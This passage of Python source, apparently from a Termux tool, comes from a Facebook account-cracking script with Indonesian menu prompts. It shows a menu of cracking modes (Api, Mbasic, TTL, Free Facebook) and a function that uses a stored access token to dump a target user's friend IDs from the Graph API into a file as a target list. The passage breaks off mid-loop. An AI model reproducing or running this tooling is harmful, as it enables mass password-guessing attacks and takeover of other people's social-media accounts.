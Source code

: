 	elif r=="8":
		menu_user_agent()
	elif r=="0":
		try:
			jalan(k+"\n["+p+"•"+k+"]"+p+" Thanks")
			os.system("rm -rf login.txt")
			os.system("termux-open-url https://www.facebook.com/OLDFB.01")
			exit()
		except Exception as e:
			print((k+"["+p+"!"+k+"]"+p+" Error %s"%e))
	else:
		print((k+"["+p+"!"+k+"]"+p+" Wrong Input"))
		menu()	

def pilihcrack(file):
  print((k+"\n["+p+"1"+k+"]"+p+" Api ("+k+"Fast Process"+p+")"))
  print((k+"["+p+"2"+k+"]"+p+" Api + TTL ("+k+"Fast Process"+p+")"))
  print((k+"["+p+"3"+k+"]"+p+" Mbasic ("+k+"Medium Process"+p+")"))
  print((k+"["+p+"4"+k+"]"+p+" Mbasic + TTL ("+k+"-Medium Process"+p+")"))
  print((k+"["+p+"5"+k+"]"+p+" Free Facebook ("+k+"Very Slow Process"+p+")"))
  krah=input(k+"\n["+p+"•"+k+"]"+p+" Pilih : ")
  if krah in[""]:
    print((k+"["+p+"!"+k+"]"+p+" Fill In The Correct"))
    pilihcrack(file)
  elif krah in["1","01"]:
    bapi(file)
  elif krah in["2","02"]:
    bapittl(file)
  elif krah in["3","03"]:
    crack(file)
  elif krah in["4","04"]:
    crackttl(file)
  elif krah in["5","05"]:
    crackffb(file)
  else:
    print((k+"["+p+"!"+k+"]"+p+" Fill In The Correct"))
    pilihcrack(file)

### DUMP ID ###

def publik():
	try:
		toket=open("login.txt","r").read()
	except IOError:
		print((k+"\n["+p+"!"+k+"]"+p+" Cookie/Token Invalid"))
		os.system("rm -rf login.txt")
		logs()
	try:
		print((k+"\n["+p+"•"+k+"]"+p+" Untuk Dump Dari Daftar Teman Sendiri, Ketik \'me\'"))
		idt = input(k+"["+p+"•"+k+"]"+p+" User ID Target : ")
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print((k+"["+p+"•"+k+"]"+p+" Name : "+op["name"]))
		except KeyError:
			print((k+"["+p+"!"+k+"]"+p+" ID Not Found"))
			print((k+"\n[ "+p+"Back"+k+" ]"+p))
			publik()
		r=requests.get("https://graph.facebook.com/"+idt+"/friends?limit=10000&access_token="+toket)
		id = []
		z=json.loads(r.text)
		qq = (op["first_name"]+".json").replace(" ","_")
		ys = open(qq , "w")#.replace(" ","_")
		for a in z["data"]: